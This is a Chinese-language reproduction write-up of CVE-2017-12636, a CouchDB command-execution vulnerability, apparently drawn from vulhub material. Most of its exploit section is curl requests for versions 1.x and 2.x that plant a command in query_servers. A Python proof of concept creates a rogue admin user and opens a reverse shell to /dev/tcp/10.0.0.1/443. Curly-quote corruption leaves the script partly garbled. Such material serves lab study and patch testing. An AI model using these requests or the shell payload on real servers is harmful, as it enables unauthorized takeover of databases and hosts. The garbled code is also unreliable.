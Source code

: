 # （CVE-2017-12636）Couchdb 垂直权限绕过漏洞

> 原文：[https://www.zhihuifly.com/t/topic/2857](https://www.zhihuifly.com/t/topic/2857)

# （CVE-2017-12636）Couchdb 任意命令执行漏洞

## 一、漏洞简介

在2017年11月15日，CVE-2017-12635和CVE-2017-12636披露，CVE-2017-12636是一个任意命令执行漏洞，我们可以通过config api修改couchdb的配置`query_server`，这个配置项在设计、执行view的时候将被运行。

## 二、漏洞影响

小于 1.7.0 以及 小于 2.1.1

## 三、复现过程

### 环境搭建

Couchdb 2.x和和1.x的API接口有一定区别，所以这个漏洞的利用方式也不同。本环境启动的是1.6.0版本，如果你想测试2.1.0版本，可以启动[CVE-2017-12635](https://github.com/vulhub/vulhub/tree/master/couchdb/CVE-2017-12635)附带的环境。

执行如下命令启动Couchdb 1.6.0环境：

```
docker-compose up -d 
```

启动完成后，访问`http://www.0-sec.org:5984/`即可看到Couchdb的欢迎页面。

### 漏洞复现

该漏洞是需要登录用户方可触发，如果不知道目标管理员密码，可以利用**CVE-2017-12635**先增加一个管理员用户。

#### 1.6.0 下的说明

依次执行如下请求即可触发任意命令执行：

```
curl -X PUT 'http://vulhub:vulhub@www.0-sec.org:5984/_config/query_servers/cmd' -d '"id >/tmp/success"'
curl -X PUT 'http://vulhub:vulhub@www.0-sec.org:5984/vultest'
curl -X PUT 'http://vulhub:vulhub@www.0-sec.org:5984/vultest/vul' -d '{"_id":"770895a97726d5ca6d70a22173005c7b"}'
curl -X POST 'http://vulhub:vulhub@www.0-sec.org:5984/vultest/_temp_view?limit=10' -d '{"language":"cmd","map":""}' -H 'Content-Type:application/json' 
```

其中,`vulhub:vulhub`为管理员账号密码。

第一个请求是添加一个名字为`cmd`的`query_servers`，其值为`"id >/tmp/success"`，这就是我们后面待执行的命令。

第二、三个请求是添加一个Database和Document，这里添加了后面才能查询。

第四个请求就是在这个Database里进行查询，因为我将language设置为`cmd`，这里就会用到我第一步里添加的名为`cmd`的`query_servers`，最后触发命令执行。

#### 2.1.0 下的说明

2.1.0中修改了我上面用到的两个API，这里需要详细说明一下。

Couchdb 2.x 引入了集群，所以修改配置的API需要增加node name。这个其实也简单，我们带上账号密码访问`/_membership`即可：

```
curl http://vulhub:vulhub@www.0-sec.org:5984/_membership 
```

![image](img/74ca4199e94d58ba860c1ec639f01f6f.png)

可见，我们这里只有一个node，名字是`nonode@nohost`。

然后，我们修改`nonode@nohost`的配置：

```
curl -X PUT http://vulhub:vulhub@www.0-sec.org:5984/_node/nonode@nohost/_config/query_servers/cmd -d '"id >/tmp/success"' 
```

![image](img/cc0412777848ce0cd53eeceb72f49858.png)

然后，与1.6.0的利用方式相同，我们先增加一个Database和一个Document：

```
curl -X PUT 'http://vulhub:vulhub@www.0-sec.org:5984/vultest'
curl -X PUT 'http://vulhub:vulhub@www.0-sec.org:5984/vultest/vul' -d '{"_id":"770895a97726d5ca6d70a22173005c7b"}' 
```

Couchdb 2.x删除了`_temp_view`，所以我们为了触发`query_servers`中定义的命令，需要添加一个`_view`：

```
curl -X PUT http://vulhub:vulhub@www.0-sec.org:5984/vultest/_design/vul -d '{"_id":"_design/test","views":{"wooyun":{"map":""} },"language":"cmd"}' -H "Content-Type: application/json" 
```

增加`_view`的同时即触发了`query_servers`中的命令。

### poc

> 修改其中的target和command为你的测试机器，然后修改version为对应的Couchdb版本（1或2），成功反弹shell：

![image](img/63fcb2c996c163745af12800595758df.png)

```
#!/usr/bin/env python3
import requests
import json
import base64
from requests.auth import HTTPBasicAuth

target = ‘[http://your-ip:5984](http://your-ip:5984)’

command = rb""“sh -i >& /dev/tcp/10.0.0.1/443 0>&1"”"

version = 1

session = requests.session()

session.headers = {

‘Content-Type’: ‘application/json’

}

# session.proxies = {

# ‘http’: ‘[http://127.0.0.1:8085](http://127.0.0.1:8085)’

# }

session.put(target + ‘/_users/org.couchdb.user:wooyun’, data=’’’{

“type”: “user”,

“name”: “wooyun”,

“roles”: ["_admin"],

“roles”: [],

“password”: “wooyun”

}’’’)

session.auth = HTTPBasicAuth(‘wooyun’, ‘wooyun’)

command = “bash -c ‘{echo,%s}|{base64,-d}|{bash,-i}’” % base64.b64encode(command).decode()

if version == 1:

session.put(target + (’/_config/query_servers/cmd’), data=json.dumps(command))

else:

host = session.get(target + ‘/_membership’).json()[‘all_nodes’][0]

session.put(target + ‘/_node/{}/_config/query_servers/cmd’.format(host), data=json.dumps(command))

session.put(target + ‘/wooyun’)

session.put(target + ‘/wooyun/test’, data=’{"_id": “wooyuntest”}’) `if version == 1:

session.post(target + ‘/wooyun/_temp_view?limit=10’, data=’{“language”:“cmd”,“map”:""}’)

else:

session.put(target + ‘/wooyun/_design/test’, data=’{"_id":"_design/test",“views”:{“wooyun”:{“map”:""} },“language”:“cmd”}’)` 
```

## 参考链接

> https://vulhub.org/#/environments/couchdb/CVE-2017-12636/
